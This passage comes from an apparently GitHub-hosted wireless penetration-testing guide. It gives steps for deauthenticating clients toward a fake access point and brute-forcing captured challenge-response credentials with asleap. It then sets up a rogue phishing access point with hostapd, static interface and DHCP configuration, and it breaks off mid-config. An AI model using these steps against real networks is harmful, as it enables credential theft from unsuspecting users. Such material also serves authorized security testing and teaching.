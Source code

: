 - Attack:
    a.	Follow the step a-g, as shown in the WEP cracking.
    b.	Keep your wireless router in such a place where the clients have good range to it.
    c.	Deauth the user from the genuine access point and wait for the user to connect to your Fake AP.
    d.	As soon as the user enters  the username and password, radius server log will show the challenge response for that user.
    e.	Run the following command to crack the password using brute force attack.
        `asleap –C <Challeng> -R< Response> -W <Wordlist>`


4. Phishing Attack.
- Pre-requisite:
    Wireless router which supports Captive portal integration
    or
    A wireless adapter like Alfa Adapter.
    A Phishing page.

  - Setup:
    This setup requires 2 wireless adapters. 1 for performing packet injection and other for setting up a fake access point.
        a.	Connect both the wireless adapters to the Kali. Check the interface name for both the wireless adapters. Configure wlan0 in monitor mode for packet injection and wlan1 as AP.
        b.	Install hostapd
          	`apt-get install hostapd`
        c.	Configure Hostapd to act as an AP.
          - Edit the following file
              `/etc/hostapd/hostapd.conf`
          - Delete all the configuration and add the below lines in the config file.
              `interface=wlan1
               driver=nl80211
               ssid=<name of AP>
               #wpa=2
               channel=11
               #wpa_pairwise=TKIP CCMP
               hw_mode=g`
        d.	Configure wlan1 with IP address schema to act as a gateway.
          - Append the following configuration in thefile:
               `/etc/network/interfaces
                auto wlan1     
                iface wlan1 inet static
                address 10.0.0.1
                netmask 255.255.255.0
                network 10.0.0.0
                broadcast 10.0.0.255`
        e.	Apply the interface configuration using following commands:
               `ifconfig wlan1 down
              	ifconfig wlan1 up
                ifup wlan1`

        f.	Install and configure the DHCP server for the access point.
               `apt-get install isc-dhcp-server`
          -	Edit the following files:
              	`/etc/default/isc-dhcp-server`
          - set the value of the interfaces parameter to wlan1.
                `interfaces = “wlan1”
                 /etc/dhcp/dhcpd.conf`
          - Remove all the lines from the file and set the below lines:
                `ddns-update-style none;
                 option domain-name "example.org";
                 option domain-name-servers ns1.example.org, ns2.example.org;
                 default-lease-time 600;
                 max-lease-time 7200;
                 log-facility local7;
                 subnet 10.0.0.0 netmask 255.255.255.0 {
                   option routers 10.0.0.1;